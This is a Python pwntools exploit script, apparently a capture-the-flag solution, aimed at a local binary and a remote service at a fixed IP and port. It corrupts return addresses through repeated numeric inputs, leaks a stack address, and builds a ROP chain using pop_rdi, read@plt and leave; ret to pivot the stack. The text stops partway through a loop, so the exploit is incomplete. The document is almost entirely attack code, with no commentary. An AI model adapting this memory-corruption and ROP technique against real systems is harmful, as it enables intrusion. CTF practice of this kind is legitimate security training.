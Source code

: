 ```python
#!/usr/bin/env python

import sys
from pwn import *

if len(sys.argv) == 1:
    r = process('./chall')
else:
    r = remote('13.231.207.73', 9005)

r.sendlineafter('n = ', '22')

for i in range(14):
    r.sendlineafter('= ', '0')

n = 0x6010b0
buf = 0x601b00
rip = 0x400897

r.sendlineafter('= ', '20')
r.sendlineafter('= ', str(rip))

r.recvuntil('SUM = ')
sum1 = int(r.recvline().strip())
log.info('sum1 = ' + str(sum1))
sum1 -= rip
sum1 -= 0x16*2

rip2 = 0x40088e
for i in range(8):
    r.sendlineafter('= ', '0')
r.sendlineafter('= ', '11')
for i in range(2):
    r.sendlineafter('= ', '0')
r.sendlineafter('= ', str(buf))
r.sendlineafter('= ', str(rip2))
for i in range(6):
    r.sendlineafter('= ', '0')

r.recvuntil('SUM = ')
sum2 = int(r.recvline().strip())
log.info('sum2 = ' + str(sum2))
sum2 -= buf
sum2 -= rip2
sum2 -= 0x16*2
sum2 -= 0x40

stack = sum1 - sum2 - 0xa4
log.info('stack: ' + hex(stack))

pop_rdi = 0x400a83
pop_rsi_r15 = 0x400a81
read_plt = 0x4006b0
leave_ret = 0x400849
r.sendlineafter('= ', str(buf))
r.sendlineafter('= ', str(pop_rdi))
r.sendlineafter('= ', str(0))
r.sendlineafter('= ', str(pop_rsi_r15))
r.sendlineafter('= ', str(buf))
r.sendlineafter('= ', str(0))
r.sendlineafter('= ', str(read_plt))
r.sendlineafter('= ', str(leave_ret))
for i in range(5):
```